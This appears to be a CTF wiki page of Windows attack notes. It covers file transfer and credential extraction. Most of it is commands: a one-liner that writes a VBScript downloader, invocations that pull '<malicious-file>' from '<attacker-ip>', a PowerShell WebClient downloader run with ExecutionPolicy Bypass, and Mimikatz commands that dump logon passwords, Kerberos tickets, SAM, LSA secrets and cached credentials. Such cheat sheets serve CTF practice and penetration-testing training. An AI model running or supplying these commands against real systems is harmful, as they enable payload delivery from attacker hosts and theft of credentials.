 ```yaml
---
layout: article
title: Windows
permalink: /wikis/ctf/windows
aside:
    toc: true
sidebar:
    nav: wikis
---
```



## File Transfer

### cscript

If command execution is available and firewalls allow for file transfers: 

cscript.exe is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With cscript.exe, you can run scripts by typing the name of a script file at the command prompt.

create wget.vbs for vbscript transfer (in one single command) 
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open ^"GET^", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = ^"^" >> wget.vbs && echo strBuffer = ^"^" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs 
```
 
Use cscript to run the wget.vbs script 
```
cscript <script-name> http://<attacker-ip>/<malicious-file> <output-file> 
```


### PowerShell

```
echo $storageDir = $pwd> wget.ps1 && echo $webclient = New-Object System.Net.WebClient>> wget.ps1 && echo $url = "http://<attacker-ip>/<malicious-file>">> wget.ps1 

echo $file = "<output-file>">> wget.ps1 
echo $webclient.DownloadFile($url,$file)>> wget.ps1 
```
 
Confirm script creation 
```
type wget.ps1 
```
 
Execute ps script 
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File <scriptname>
```

Download file with System.Net.WebClient
```
IEX(New-Object Net.WebClient).downloadFile("http://someserver/somefile.exe", "Filename.exe")
```

## Mimikatz

Extracting information from mimikatz 
```
log 
privilege::debug 
sekurlsa::logonpasswords 
sekurlsa::tickets /export 

vault::cred 
vault::list 

token::elevate 
vault::cred 
vault::list 
lsadump::sam 
lsadump::secrets 
lsadump::cache
```




